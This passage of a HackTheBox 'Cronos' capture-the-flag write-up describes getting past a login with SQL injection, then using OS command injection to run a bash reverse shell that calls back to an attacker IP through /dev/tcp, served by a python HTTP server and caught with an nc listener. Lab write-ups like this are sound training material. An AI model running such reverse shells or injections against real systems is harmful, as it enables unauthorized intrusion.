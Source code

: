 Let's checkout the admin.cronos.htb first.


![Second](Second.png)

## Exploit


I tried to go through some known vulnerabilites of [Apache 2.4.18](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-199589/Apache-Http-Server-2.4.18.html), but didn't find anything useful.

Moving on, let's try SQL Injection. 

![SQL Injection](Third.png)

That Worked, Haha!

![Net Tool](Fourth.png)

This is pretty simple, OS command injection is possible here. Checking if ls works, and it worked. Let's pop a reverse shell

![Code Execution](Fifth.png)


```bash

┌──(kali㉿kali)-[~/HackTheBox/Cronos/exploit]
└─$ cat shell     
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.3/54 0>&1 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/HackTheBox/Cronos/exploit]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
Used wget to download the file, changed the execution permission and ran it.

```bash

┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 54
[sudo] password for kali: 
listening on [any] 54 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.13] 37402
bash: cannot set terminal process group (1389): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
whoami
www-data
www-data@cronos:/var/www/admin$ cd /home/ 
cd /home/
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ cat user.txt

```
Got the user shell!!
